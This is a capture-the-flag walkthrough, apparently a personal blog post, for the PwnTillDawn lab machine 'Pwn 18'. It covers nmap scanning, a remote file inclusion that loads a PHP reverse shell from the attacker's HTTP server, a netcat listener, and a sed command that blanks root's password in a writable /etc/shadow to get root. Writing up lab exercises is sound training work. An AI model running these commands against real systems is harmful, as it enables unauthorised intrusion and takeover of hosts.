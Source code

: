 ```yaml
---
layout: post
title: Pwn 18
date: 10-05-2025
categories: [pwntilldwn]
tags: [exfiltration, blind, commandinjection, wget]
image: "https://img.freepik.com/free-photo/portrait-young-student-education-day_23-2150980071.jpg"
---
```


## Scanning

```jsx
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-10 11:45 EAT
Nmap scan report for 10.150.150.18
Host is up (0.15s latency).
Not shown: 97 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
8000/tcp open  http    SimpleHTTPServer 0.6 (Python 3.8.5)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.95 seconds

```

## Enumerating webpage

Because the file will be reflected and then will exploit but then it rename the file withsingle php so whont been seen so we add .php infront of .php file

## Vuln RFI

```jsx
mv rev.php rev.php.php

```

create server

```jsx
python3 -m http.server 8000

```

now you have to execute the payload with .php not .php.php because the service will remove .php

```jsx
http://10.150.150.18/index.php?page=http://10.66.66.102:8000/rev.php

```

```jsx
nc -lnvp 443 #killing have happy hacking kid
```

## Initial access

```jsx
                                                                                                                                                                                                                                               
┌──(cyberkid㉿cyberkiddle)-[~/…/redteam/pwntilldawn/21/Depixelization_poc]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.66.66.102] from (UNKNOWN) [10.150.150.18] 53038
bash: cannot set terminal process group (946): Inappropriate ioctl for device
bash: no job control in this shell
www-data@snare:/var/www/html$ 

```

## Priv esc phase

- Move the target linpease and find the user can write, execute and read /etc/shadow
    
    ## edit /etc/shadow
    
    empty pass
    
    - If the edit have successfully then you have to
        
        ```jsx
        python3 -c 'import pty; pty.spawn("/bin/bash")' #This will stablize the shell
        ```
        
    
    ```jsx
    root:!:20216:0:99999:7:::
    
    ```
    
    ```jsx
    sed 's/^root:[^:]*:/root::/' /etc/shadow > /tmp/shadow && cp /tmp/shadow /etc/shadow
    ```
    

## Root

```jsx
www-data@snare:/var/www/html$ su root
su root
Password: 
su: Authentication failure
www-data@snare:/var/www/html$ python3 -c 'import pty;pty.spawnb("/bin/bash")'
python3 -c 'import pty;pty.spawnb("/bin/bash")'
Traceback (most recent call last):
  File "<string>", line 1, in <module>
AttributeError: module 'pty' has no attribute 'spawnb'
www-data@snare:/var/www/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@snare:/var/www/html$ su root
su root
root@snare:/var/www/html# cd /root
cd /root
root@snare:~# ls
ls
FLAG2.txt  snap
root@snare:~# cat FLAG2.txt
cat FLAG2.txt
2b0286a69b276189afe50517304963e5fa5982d9
root@snare:~# 

```
